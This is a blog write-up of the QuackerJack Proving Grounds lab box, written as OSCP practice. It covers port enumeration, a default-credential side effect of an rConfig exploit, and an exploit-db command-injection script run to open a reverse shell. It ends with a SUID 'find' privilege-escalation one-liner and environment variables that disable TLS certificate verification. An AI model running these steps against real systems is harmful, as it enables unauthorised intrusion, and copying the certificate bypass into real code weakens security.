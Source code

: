 ```yaml
---
layout: writeup
title: QuackerJack - Proving Grounds
date: 2024-07-23 13:32:20 +0300
description: A Writeup of the QuackerJack Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Python]
---
```


This is a writeup for QuackerJack, which I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). I kick things off with an nmapAutomator Full scan and check port 80 by entering the IP into firefox. I get the nmap scan back, and it looks like we'll have a lot to go through. 
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

And I do see a webpage for port 80, so I begin a directory scan on that (which doesn't really return anything interesting).
![QuackerJack1.png](/assets/images/QuackerJack/QuackerJack1.png){: .center-aligned width="600px"}

As I go through the nmap output of open ports, there's a few options that don't really go anywhere either. The FTP server does allow anonymous logins, but it times out before you can access anything. I can authenticate using rcpclient, but I can't find anything especially interesting, particularly in the way of usernames or passwords. I am able to list SMB shares, but can't access anything that stands out. And then there's port 8081, where I quickly find a login page:

![QuackerJack2.png](/assets/images/QuackerJack/QuackerJack2.png){: .center-aligned width="600px"}

Trying some test logins and admin shows `Invalid password` but user shows `username not found` so we know admin is a user. At that point I search for some exploits and try a few because we know from the screenshot above that we're working with `rConfig Version 3.9.4`. There is an unauthenticated root exploit on exploit-db for that version, but I don't get it working. I also try one for [3.9.5](https://www.exploit-db.com/exploits/48878), but that doesn't immediately appear to work either. While looking around, I see a comment in[this](https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff)github page that states that the exploit for 3.9.5 does create a password for the admin user of `Testing1@`. So I try to login with the credentials `admin:Testing1@`, and it works. I hadn't realized that part of the exploit did work. So we have creds now and access to the console. 

![QuackerJack3.png](/assets/images/QuackerJack/QuackerJack3.png){: .center-aligned width="600px"}

While there is an authenticated command injection exploit on [exploit-db](https://www.exploit-db.com/exploits/48241), I unfortunately get errors on that. Apparently a couple python modules might not match a supported version: 
`urllib3 (1.26.8) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!` I could try and figure that out, but I've had some issues trying to tweak that, so I keep moving and make a note. 

After an hour or so, I decide it's time to revisit this issue, because honestly, I should know how to solve. That said, I'm not sure the best path to move forward, so I ask ChatGPT. I figure if I do this, I can take notes and learn how to do it in the future. So I do, and it turns out I need to create a python 3 virtual environment, install the supported libraries, and then deactivate later. The commands are as follows:
1. `sudo apt-get install python3-venv`
2. `python3 -m venv myenv`
3. `source myenv/bin/activate
4. `pip install requests urllib3==1.26.8 charset_normalizer==2.0.12` 
5. `python $script.py`
6. `deactivate`

And it works, and now I know! However, it did not solve my problems. I ran the script again without those errors, and I noticed a few more, all ultimately cause by an SSL issue, because we had to use https for port 8081. The error looked like this:

`(Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: self-signed certificate (_ssl.c:1006)')))` 

So I simply asked ChatGPT again, and it told me to run these commands to fix the issue. 
1. `export PYTHONWARNINGS="ignore:Unverified HTTPS request"`
2. `export REQUESTS_CA_BUNDLE=""`
3. `export CURL_CA_BUNDLE=""`

And it did, and the command finally worked:
`python3 47982.py https://192.168.242.57:8081 admin Testing1@ 192.168.45.235 80`

And I got the shell. So I checked for SUID binaries using: 
`find / -type f -perm -u=s 2>/dev/null`, and I immediately noticed `find`. A quick trip to gtfo bins says we can run this command to get privileged access, and it won't drop the privileges. 

`find . -exec /bin/sh -p \; -quit`

And it works. 

![QuackerJack4.png](/assets/images/QuackerJack/QuackerJack4.png){: .center-aligned width="600px"}

Lessons learned: I learned how to use a python virtual environment to download different libraries than the main ones, and I learned how to configure it such that it ignores SSL issues/issues with certs when using HTTPS for sites that aren't properly configured for it. 

Other takeaways: I'm annoyed with myself for using ChatGPT on this box when it's not allowed on the exam, but that said, it's exactly the kind of thing to use ChatGPT for. I didn't know that it was possible to use a temporary virtual environment like that for python, so I didn't know *to* research how to do it. I can't do it on the exam, but hey, now it's in my [OSCP Notes](https://cagrigsby.github.io/oscp_notes/)